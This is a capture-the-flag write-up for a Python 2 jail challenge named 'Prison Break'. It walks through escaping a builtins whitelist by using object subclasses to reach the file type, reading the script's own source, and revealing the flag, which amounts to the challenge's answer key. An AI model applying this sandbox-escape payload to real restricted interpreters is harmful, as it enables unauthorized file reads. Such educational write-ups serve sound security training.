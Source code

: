 # Prison Break

Author: [roerohan](https://github.com/roerohan)

## Description

This is a python jail challenge.

## Requirements

- Docker: [Dockerfile](./Dockerfile)
- Basic Python.

## Sources

```
I saw them put someone in jail. Can you find out who it is?
They said this is the best prison ever built. You sure can't break it, can you?
```

## Exploit

This is a classic jail challenge where some `builtins` have been blocked, such as `import`, `exec`, `file`, `quit`, `execfile`, etc. Your job is to find the flag hidden on the server. When you connect to the program you see:

```python
$ python2 jail.py
Find the flag.
>>> print 1+1
2
```

When you try `print 1+1`, you see that it works even without the `()`, indicating that this is `python2`. You can try to print some things to check what functions are allowed.

```python
>>> __import__('system')
You have encountered an error.
>>> __import__
You have encountered an error.
>>> exec
You have encountered an error.
>>> execfile
You have encountered an error.
>>> print dir()      
['code_string', 'self']
```

So, we see that `dir` is allowed, we can use that to check out the allowed builtins.

```python
>>> print dir(__builtins__)
['ArithmeticError', 'AssertionError', 'AttributeError', 'Exception', 'False', 'None', 'True', 'abs', 'basestring', 'bin', 'bytearray', 'bytes', 'complex', 'dict', 'dir', 'help']
```

We see that `dict` is allowed. So, we can use the `__class__` to find the class, then we can use `__base__` to find the baseclass. Now there's a `__subclasses__` function that shows all the classes of that base class, which basically shows all the classes you'd need. 

```python
>>> print dict.__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class '__main__.Sandbox'>]
```

Notice the `<type 'file'>` in the array. We can use this to access the `read` function on `type` file. We can loop through this list (or count) to find that the index of `<type 'file>` is 40.

```python
>>> print dict.__class__.__base__.__subclasses__()[40]
<type 'file'>
```

Now, we can call `.read()` on this! Let's try to read `flag.txt`.

```python
>>> print ().__class__.__bases__[0].__subclasses__()[40]('flag.txt', 'r').read()
The flag is in the source code.
```

Great, so we know where the flag is, but we don't know the file name. However, we can use `__file__`.

```
__file__ is a variable that contains the path to the module that is currently being imported. Python creates a __file__ variable for itself when it is about to import a module. The updating and maintaining of this variable is the responsibility of the import system.
```

So, the final payload will be:

```python
>>> print ().__class__.__bases__[0].__subclasses__()[40](__file__, 'r').read()
#!/usr/bin/python2

import sys

class Sandbox(object):
    def execute(self, code_string):
        exec(code_string)

sandbox = Sandbox()

_raw_input = raw_input

main = sys.modules["__main__"].__dict__
orig_builtins = main["__builtins__"].__dict__

builtins_whitelist = set((
    #exceptions
    'ArithmeticError', 'AssertionError', 'AttributeError', 'Exception',

    #constants
    'False', 'None', 'True',

    #types
    'basestring', 'bytearray', 'bytes', 'complex', 'dict',

    #functions
    'abs', 'bin', 'dir', 'help'

    # blocked: eval, execfile, exit, file, quit, reload, import, etc.
))

for builtin in orig_builtins.keys():
    if builtin not in builtins_whitelist:
        del orig_builtins[builtin]

print("Find the flag.")

def flag_function():
    flag = "csictf{m1ch34l_sc0fi3ld_fr0m_pr1s0n_br34k}"

while 1:
    try:
        code = _raw_input(">>> ")
        sandbox.execute(code)

    except Exception:
        print("You have encountered an error.")
```

You get the source code, and you see the flag in it.
<br />

The flag is:

```
csictf{m1ch34l_sc0fi3ld_fr0m_pr1s0n_br34k}
```